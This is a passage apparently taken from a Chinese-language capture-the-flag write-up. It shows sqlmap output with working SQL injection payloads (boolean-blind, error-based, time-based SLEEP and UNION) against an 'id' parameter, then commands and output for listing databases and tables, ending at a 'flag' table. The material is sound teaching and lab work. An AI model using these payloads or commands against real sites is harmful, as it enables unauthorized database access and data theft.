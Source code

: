 ```shell
[17:02:50] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] Y
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 5375=5375 AND 'cHSM'='cHSM

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=1' AND GTID_SUBSET(CONCAT(0x7162716b71,(SELECT (ELT(9581=9581,1))),0x7171717a71),9581) AND 'XkAv'='XkAv

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 4447 FROM (SELECT(SLEEP(5)))OBYc) AND 'mKpu'='mKpu

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x7162716b71,0x57785a53554b6a6651566b6155764a544858417671657750414e7054504450776c7a766c4c4c5461,0x7171717a71),NULL,NULL,NULL-- -
---
```

​	发现注入点之后，我们就可以进行利用，我们使用语句`sqlmap -u "https://hostname.com/book?id=1" --cookie="COOKIE" --dbs`查看数据库中的所有库。

```shell
[17:11:51] [INFO] fetching database names
available databases [5]:
[*] information_schema
[*] library
[*] mysql
[*] performance_schema
[*] sys
```

​	获取到数据库之后我们就可以使用`-D`指定数据库，使用`--tables`查看数据库中的表。

```shell
[17:13:34] [INFO] fetching tables for database: 'library'
Database: library
[3 tables]
+-------+
| books |
| flag  |
| users |
+-------+
```

​	我们看到了其中有flag表，我们就可以使用`-T`参数指定表，使用`--dump`获取表中的数据。

## 补充
